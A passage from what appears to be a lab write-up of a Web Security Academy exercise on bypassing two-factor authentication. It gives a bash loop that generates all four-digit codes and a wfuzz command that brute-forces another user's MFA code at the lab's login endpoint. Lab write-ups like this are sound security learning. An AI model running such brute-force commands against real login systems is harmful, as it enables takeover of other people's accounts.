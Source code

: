 ![Pasted image 20240926164910.png](../../../../IMAGES/Pasted%20image%2020240926164910.png)


Once we've sent the request, we need to brute force the security code, for this, i used the following:

` for i in {0000..9999}; do echo $i; done > 2facodes.txt` -> To generate numbers from 0000 to 9999 and save it in a file


`wfuzz -c -w 2facodes.txt -d "mfa-code=FUZZ" -u "https://0ac5006403c51099804b719200ce0076.web-security-academy.net/login2" -b "session=YaWIHMFv6VqOgd2RPzQAFvcp93RwZ7IU; verify=carlos" --hc 200

